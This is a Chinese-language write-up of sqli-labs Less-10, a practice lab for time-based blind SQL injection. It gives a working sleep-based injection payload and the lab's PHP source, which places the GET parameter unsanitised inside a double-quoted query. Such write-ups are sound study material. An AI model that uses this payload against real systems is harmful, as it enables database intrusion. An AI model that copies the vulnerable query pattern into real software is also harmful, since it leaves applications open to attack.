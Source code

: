 # Less-10 **GET Blind- Time based- Double Quotes- String**
TAG：基于时间的注入、GET型注入、字符型注入、DNSLOG注入
## 漏洞利用  
Less10和less9相似，只不过闭合符号为双引号"  
Payload:```?id=1" and if(length(database())=8,sleep(5),0) --+```  
这里同样可以使用less9中的DNSLOG与注入脚本，只不过需要修改相关payload  

## 源码分析  
### less10源码： 
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-10 Blind- Time based- Double Quotes- String</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:60px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">


<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);

// take the variables
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 

$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="5" color="#FFFF00">';
	echo 'You are in...........';
	//print_r(mysql_error());
	//echo "You have an error in your SQL syntax";
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>
</font> </div></br></br></br><center>
<img src="../images/Less-10.jpg" /></center>
</body>
</html>
```

### 漏洞点分析：
```
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```
less10中参数id由双引号包裹，只需将less9中的语句稍加修改即可使用